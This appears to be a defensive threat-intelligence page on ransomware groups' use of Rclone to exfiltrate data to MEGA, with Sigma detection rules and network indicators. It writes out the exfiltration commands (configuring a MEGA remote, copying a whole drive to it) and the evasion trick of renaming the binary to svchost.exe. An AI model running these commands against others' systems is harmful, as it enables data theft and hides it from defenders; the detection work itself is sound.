# Rclone - Data Exfiltration

## Introduction

[Rclone](https://attack.mitre.org/software/S1040) is a command line program for syncing files with cloud storage services such as Dropbox, Google Drive, Amazon S3, and MEGA. [Rclone](https://attack.mitre.org/software/S1040) has been used in a number of ransomware campaigns, including those associated with the [Conti](https://attack.mitre.org/software/S0575) and DarkSide Ransomware-as-a-Service operations.



***

## Practical

Rclone requires a configuration to be created before it can connect to MEGA (or other cloud storage provider) which can be done in one of two ways:

**On the command line:**

```
.rclone.exe config create remote mega user [redacted]@outlook.com pass [redacted]
```

The table below breaks down the command line profile creation.

| config | Initiates the configuration file being created                                            |
| ------ | ----------------------------------------------------------------------------------------- |
| create | Creation of configuration file                                                            |
| remote | Name given to the remote profile being created (name can vary)                            |
| mega   | Cloud storage provider                                                                    |
| user   | Username for the MEGA.io account                                                          |
| pass   | Password for the MEGA.io account [obscured](https://rclone.org/commands/rclone\_obscure/) |



**Alternatively the inbuilt configuration guide can be used which walks through the process offering different options:**

```
.rclone.exe config
```

Once the profile has been created the following configuration file is created:

```
C:Users.configrclonerclone.conf
```

Once the configuration has been made it is possible to connect to MEGA and exfiltrate the data. In examples observed, threat actors have accessed file servers, browsed shared drives and then pointed Rclone at the drives like the example below.

```
.rclone.exe copy E: remote:data
```

| copy   | Command for copying data                                        |
| ------ | --------------------------------------------------------------- |
| E:     | Drive or folder which data is to be copied from                 |
| remote | Specifies the remote profile created in the configuration stage |
| data   | Folder on MEGA where the data is copied to                      |



Once the data is being copied there is outbound traffic to subdomains of `userstorage.mega.co[.]nz` such as `gfs270n071.userstorage.mega.co[.]nz`. The domains typically resolve to IP addresses associate with the MEGA ASN 205809 but not in all cases. Where MEGA is not used, there is typically a large volume of outbound traffic to a single IP address which can be seen as a spike in any network monitoring.

In some cases actors have been observed changing the executable name to avoid detection. A recent case found the actor had renamed the Rclone binary to `svchost.exe` and placed it in the directory `C:Windows`.



***

## Detection

### Sigma Rules

The following Sigma rules has been created to aid in the detection of Rclone.

| Rclone Execution via Command Line or PowerShell | This rule detects the execution of Rclone.                                                                                                                                                      |
| ----------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Rclone config file creation                     | <p>This Sigma rule will detect the creation of the Rclone configuration file. The Sysmon configuration must include the following for the FileCreate rule group.<br><br><code>rclone</code></p> |
| DNS Query for MEGA.io Upload Domain             | This final rule will detect DNS queries for subdomains of `userstorage.mega.co[.]nz.`                                                                                                           |

\




***

## REFERENCES

* [https://www.nccgroup.com/us/research-blog/detecting-rclone-an-effective-tool-for-exfiltration/](https://www.nccgroup.com/us/research-blog/detecting-rclone-an-effective-tool-for-exfiltration/)
* [https://redcanary.com/blog/threat-detection/rclone-mega-extortion/](https://redcanary.com/blog/threat-detection/rclone-mega-extortion/)
* [https://attack.mitre.org/software/S1040/](https://attack.mitre.org/software/S1040/)
* [https://rclone.org/commands/rclone\_obscure/](https://rclone.org/commands/rclone\_obscure/)






